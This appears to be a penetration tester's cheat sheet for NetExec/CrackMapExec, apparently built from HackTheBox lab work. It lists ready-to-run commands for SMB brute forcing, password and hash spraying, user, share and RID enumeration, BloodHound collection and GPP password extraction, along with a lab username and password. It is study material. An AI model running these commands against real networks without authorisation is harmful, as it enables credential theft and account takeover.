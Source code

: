 ```yaml
---
tags:
  - linux
  - smb
  - gpp
---
```

Updated version for [[CrackMapExec]]
# LDAP
``` shell-session
$ nxc ldap 10.10.11.24 -d ghost.htb -u '' --use-kcache --bloodhound --kdcHost DC01.ghost.htb --dns-server 10.10.11.24 -c All
```
# SMB
```shell-session
$ nxc smb <IP> -u <username> -p <password>
```
### Bruteforce Username/Passwords
```shell-session
$ nxc smb <IP> -u </path/to/username> -p </path/to/passwords>
```
### Enumerate Users
#### Using Anonymous Session
```shell-session
$ nxc smb 172.16.5.5 --users
```
#### Using Valid Credential
```shell-session
$ sudo nxc smb <IP> -u htb-student -p Academy_student_AD! --users
```
### Password Spraying
```shell-session
$ sudo nxc smb <IP> -u <USERS.LST> -p <PASS> | grep +
```
### Hash Spraying
```shell-session
$ sudo crackmapexec smb --local-auth <IP>/23 -u administrator -H <NT-HASH> | grep +
```
#non-evasive
## Useful Flags and Modules
- `--continue-on-success`: To keep on bruteforcing after a successful login.
- `--local-auth`: If the target is a non-domain joined system.
- `--users`: enumerate users. Also provides `badpwdcount` to see failed password attempts
- `--groups`: enumerate groups with `membercount`
- `--loggedon-users`
- `--share[s] <SHARE>`: List shares, or a specific share
- `spider_plus`: digs through each readable share and lists all readable files
- `gpp_autologin`: Searches the DC for registry.xml to find autologon information and returns the username and password.
- `gpp_password`: Retrieves the plaintext password and other information for accounts pushed through GPP.
## List Shares Anonymously
```shell-session
$ nxc smb <IP> -u 'admin' -p '' --shares
```

# Bruteforce
## SMB
### Bruteforce RIDs
```shell-session
$ nxc smb <IP> -u 'guest' -p '' --rid-brute
```